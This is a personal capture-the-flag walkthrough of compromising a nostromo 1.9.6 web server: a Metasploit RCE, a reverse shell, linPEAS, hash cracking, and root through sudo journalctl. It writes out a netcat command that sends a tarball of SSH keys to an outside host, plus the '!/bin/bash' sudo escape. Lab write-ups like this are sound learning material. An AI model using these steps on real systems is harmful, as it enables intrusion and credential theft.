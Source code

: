 # First steps

As usual Got my nmap running 

![image](https://user-images.githubusercontent.com/84482765/126080080-b9f14ed0-6864-456a-b119-980ef1d8b71f.png)

![image](https://user-images.githubusercontent.com/84482765/126080087-9fa8f445-ceca-42a4-af92-73b0b3873b27.png)

I noticed port 80 so went over to my browser to check the website, but nothing unusual there i saw. 

While i check the website i run dirb, dirbuster, nikto and rapidscan to get some more info. But again, nothing interesting in the website. 
I tried messing with the contact information areas to see if XSS was possible but it was disabled.

Looked back at the nmap result and saw the HTTP header as "nostromo 1.9.6" so i used searchsploit to see if there was anything already there. And there was one found vulnerability.
The vulnerability is for RCE. So i run my msfconsole and set up the options for this vulnerability.

It worked. now i can use RCE so now i need a reverse shell. 
To make it easier for me i wanted to test this website i found: "https://www.revshells.com/"
With it it makes way simpler to test multiple codes for the reverse shell. 
using the "bash -i" code with my info, i set up netcat listener and pop the code over metasploit. 

![image](https://user-images.githubusercontent.com/84482765/126080443-3f6c2808-96bb-47e3-9ed1-a0ae14bca2e8.png)

I start poking around and looking trough the folders. Found user called "David" but since i'm "www-data" so i need some sort of privilege excalation to get David.

I use a tool called "linpeas" to get more info about the system and a way to priv esc.
https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

Using the "without curl" method, since in that reverse shell i can't use curl, i upload the linpeas.sh file to the server and run it. 

Among the HUGE amount of information that this script show me i found a particular file interesting.

![image](https://user-images.githubusercontent.com/84482765/126080605-283b02c3-1fa0-4ac5-b7d1-8634758407a2.png)


At this point i just want to say a quick FYI. I'm making these write ups mostly to help myself learn and try to understand what i did. I don't put here all the research i do, because most of the time is just a dead end.
I just assume one thing to be what i think it is and move on. If it is not what I tought it was just go back to first step, research and try something diferent.

Moving on...

I assume this is probably a way to use SSH to enter as this user. So i try to decode this hash and get the password.
My first try was with "HASHCAT". But after a few hours trying to get it to work because, what i presume to be, a hardware incompability and/or missing "watchdog" program to monitor my hardware.

So i try with "john the ripper" and it was done way faster than i thought. 

![image](https://user-images.githubusercontent.com/84482765/126080833-780065d5-50dd-4f88-a99d-f575a810b050.png)

From what i found about this .htpasswd, it stores apache credentials. So i tested "hydra" to make sure i got it right.

![image](https://user-images.githubusercontent.com/84482765/126082316-959d3d31-ff5f-48ed-a5ac-51db8b25cbdc.png)

I assume i could use it to connect via SSH but that was a dead end.
At this point i spent another couple of hours trying to do something with what i found, with no success. I found the user flag for this box accidentally.
I imagine that somebody else left some files in the tmp folder and inside one of these files, among other information, was the user.txt file. So yeah... 
I got the user flag. But i'm not satisfied with that. So i keep going.

Not gonna lie, i got stuck pretty bad here.

I whent back to tho that linpeas result. Back to that place where i found the .htpasswd file. I saw it was inside /var/nostromo/conf. So i move tho this folder to check things out.

![image](https://user-images.githubusercontent.com/84482765/126085386-b4c0ccc0-0e65-444f-b0aa-cdc4856d21b7.png)

this file "nhttpd.conf" looks interesting


![image](https://user-images.githubusercontent.com/84482765/126085406-a5fb096a-cfba-483e-a44a-21fbbf684ea5.png)

Expecially that final part. 
"HOMEDIRS"

since i know the user is david i try going to that folder :"/home/david/public_www". which surprisingly have read permission for me. Even though it is inside "david" user.

![image](https://user-images.githubusercontent.com/84482765/126085509-df736cad-d63d-489d-b9dd-cb0726002129.png)

Funny enough the file .htaccess is just david telling me to KEEP OUT. So i think i'm in the right path ahahaha
Also inside this folder there is a file called "backup-ssh-identity-files.tgz" so i try getting this file to see what is inside 
I set up a listener using on my machine

     nc -lnvp 443 > backup-identity-files.tgz.b64

and on the server

    cat backup-ssh-identity-files.tgz | nc 10.10.14.65 443 

After uncompressing the file using

    tar -zxvf backup-ssh-identity-files.tgz  
    
it had a few files inside /home/david/.ssh

![image](https://user-images.githubusercontent.com/84482765/126085910-22dc3a06-53bf-4d56-9803-6d0b1e5c8afc.png)


I tried using "john" again to decode the RSA key.

![image](https://user-images.githubusercontent.com/84482765/126086412-e28b2c9f-4b9d-47ea-8f35-d479bd21bce3.png)

But i dont think i really had to do it. Because i can just connect via SSH using this RSA file.

![image](https://user-images.githubusercontent.com/84482765/126086488-eafef4ba-e130-4789-aeb0-7858e0f18c63.png)

It asked for a password, but i think i just setting up my own. but just in case i used the same password i found from "john"

And there it was. Loged in as david! FINALLY! it took me way to long to find it haahahah. But i guess thats how it is in the beginning.

So there it is. Now i have the user flag legitimately

![image](https://user-images.githubusercontent.com/84482765/126086583-9496532c-1777-43e8-a097-f2a91cf95104.png)


# Root Flag

ok... now for the root flag.


OMFG how i overcomplicate stuff. The past hour or so i've been just going around in circles even though basically the FIRST thing i found was the way to go.
So let me start from the beggining.

The first thing i do is use 
 
    sudo -l
    
With it i may be able to see some commands i can try to exploit to get root console. 
But it ask for david password. I use both passwords i found so far (.htpasswd and id_rsa), but both don't work. so i need to find a work around.

I run linpeas again. I still have the .sh file from before, so i just run it again, but now as david. so i might get better stuff.
Right at the beggining of the linpeas report i have this:

![image](https://user-images.githubusercontent.com/84482765/126091225-a0c23517-857a-48df-b444-60c2bed75045.png)

So there is something interesting in this folder.

Going there i see a few files, but the interesting one is called "server-stats.sh"
Runing this file i get this:

![image](https://user-images.githubusercontent.com/84482765/126091376-78d528aa-b990-4a1b-a0a9-dd11bb11d6f9.png)

But by reading the content of the file itself i see something interesting.

![image](https://user-images.githubusercontent.com/84482765/126091444-a51b9c82-9475-4d0b-8b08-e64ac131d556.png)

The script calls for sudo and the command "journalctl". But when i ran this code it didn't ask me for any password. So i guess David is listed in sudoers for this command.

At this stage i experimented a bit and went another rabbit hole that made me go far from what i needed to do.
since i know the command i looked into GTFObins for it and the only thing there for this command was

    journalcrl
    !/bin/bash

so it is pretty simple.
I did a few mistakes. Tried changing the script and runing it again but didn't quite work. 

Eventually i did what i needed to do, which was copying the entire code before the pipe and runing it.

    /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
    
this basically showed me the results from the script. BUT it didn't just end there, i could still write. So i wrote what i saw in the GTFObins website "!/bin/bash"

And that was it... It spawned root console for me.

![image](https://user-images.githubusercontent.com/84482765/126092040-69f3b466-fe74-466d-833f-9cb6212cd940.png)





# Conclusion

Overall box was pretty simple. Even though took me the entire day to do it. I spend too much researching and finding interesting posts, news, documents, exploits and stuff.
But thanks to this box i was able to explore LINPEAS a little more and test diferent ways to file transfer between my machine and the server machine. 
I did strugle if this kind of stuff before. But now i know a few diferent ways to do it. Using SSH, netcat, python simpleserver, wget and curl. 
I also found other scripts that did similar things to linpeas and tried a couple of them on this box. I recomend checking out: https://www.hackingarticles.in/linux-privilege-escalation-automated-script/













